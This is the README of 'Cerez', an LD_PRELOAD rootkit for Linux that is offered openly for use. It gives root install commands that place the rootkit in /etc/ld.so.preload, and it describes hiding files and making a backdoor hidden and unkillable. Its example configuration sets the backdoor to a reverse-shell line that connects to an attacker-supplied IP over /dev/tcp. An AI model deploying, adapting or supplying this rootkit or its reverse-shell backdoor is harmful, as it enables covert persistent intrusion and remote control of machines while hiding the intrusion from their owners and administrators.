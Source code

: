 <h1 align="center">
  <img src="assets/showcase.png"/>
  <br>
  Cerez 😈 Simple userland LD_PRELOAD rootkit
</h1>

Cerez is a configurable userland `LD_PRELOAD` rootkit, by installing it
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want
hidden. It does so by overwriting (g)libc functions such as `open`, `unlinkat` etc.

## Features
- ✔ Hides files in the file system
- ✔ Hides your backdoor in the process list
- ❌ Hides connections in the network list
- ✔ Makes your backdoor unkillable
- ✔ Makes files unaccessable

## Install
> [!Important]
> Don't forget to edit `cerez.cfg` after the installation

### You will need to install `build-essential` and `libconfig` to compile!
You can install it with `apt` on debian based systems:
```bash
apt update && apt install build-essential libconfig-dev
```
You also may want to install git in order to obtain the source.

To compile the rootkit, run the following commands:
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```
These commands will compile and install the rootkit and the configuration
to the system.

## Config (`/etc/cerez.cfg`)
Configuration is (really) simple, there are only 3 options:

- `backdoor`: Your backdoor command, this will be run by the rootkit everytime a program starts (if its not already running). Your
backdoor will be hidden in the process list. It will also be unkillable.
- `shell`: The shell that will be used to run the `backdoor` command.
- `hidden`: A list files that you want to hide and protect. These files will be hidden in directory listings and any attempt access
them will fail, and a fake file will be accessed instead.

Here is an example configuration:
```
backdoor = "bash -i >& /dev/tcp/<ip>/1234 0>&1"
shell = "/bin/bash"
hidden = (
  { path = "/etc/cerez.cfg" },
  { path = "/etc/ld.so.preload" },
  { path = "/path/to/your/super/secret/file" }
)
```
Note that after hiding `/etc/cerez.cfg` **you won't be able to access it unless you are running as the backdoor process**.

## Resources
To learn more about `LD_PRELOAD` rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.

Also this is free (as in freedom) software! So feel free to fork and improve the project.
If you are interested, you can also contribute back to the project by creaint an issue or a pull request.
